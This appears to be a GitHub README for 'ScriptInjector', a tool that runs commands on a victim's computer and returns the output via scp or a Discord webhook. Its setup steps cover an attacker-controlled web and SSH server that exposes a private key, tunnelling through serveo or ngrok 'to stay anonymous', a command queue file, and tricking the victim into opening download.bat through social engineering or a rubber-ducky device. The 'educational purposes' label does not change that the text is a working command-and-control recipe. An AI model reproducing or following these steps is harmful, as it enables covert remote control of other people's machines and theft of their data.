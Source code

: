 # ScriptInjector
Inject and run scripts on remote computers and get the output back via scp or a discord webhook
For educational purposes only.

## How it works
1. Clone this repo and cd into it
    ```
    git clone https://github.com/emaa10/ScriptInjector.git
    cd ScriptInjector
    ```
2. Install packages
    ```
    sudo apt install -y apache2 openssh-client screen
    sudo systemctl enable ssh
    ```
3. Setup an apache2 webserver and put the files under `/src` into `/var/www/html/`
    ```
    sudo mv src /var/www/html
    ```
4. Generate an ssh-key to allow your victim to scp into your system, it is recommended to use another user with fewer permissions 
    ```
    ssh-keygen -t rsa
    ```
    Press enter on all questions.
    ```
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
    mv ~/.ssh/id_rsa ~/.ssh/id_rsa.pub /var/www/html/
    ```
5. Setup port forwarding or serveo.net/ngrok to stay anonymous
    1. forward port 80 and 22 (http and ssh)
    2. create a no-ip or a subdomain of your port-forwarding service
6. Create an ssh config file for your victim
    1. use the template "config" file
    2. if you're using serveo.net to forward your IP, use the "config_serveo" template
        - since serveo forwards IPs using ssh, you need to configure ProxyJump for serveo.
        - I recommend serveo because of this, it keeps your connection secure
        - You need to generate a hostname (see the launch_serveo.txt file for serveo) and just put it into "<hostname>" in your config file
    3. move your config file into /var/www/html/
7. Start serveo (or a different port forwarding service)
    - See the launch_serveo.txt file for 2 commands to forward ssh and http to your_hostname.serveo.net
    - You can use screen to start multiple serveo forwarding simultaneously
8. Create folders and the input.txt
    ```
    touch /var/www/html/input.txt
    echo "dir C:\Users" >> /var/www/html/input.txt
    sudo mkdir /mnt/income
    sudo chown www-data /mnt/income
    sudo chgrp www-data /mnt/income
    sudo chmod 777 /mnt/income
    ```
9. Get the victim to open the download.bat
    - That's your part. There are many options: Using a rubberducky script or converting the bat file into an executable.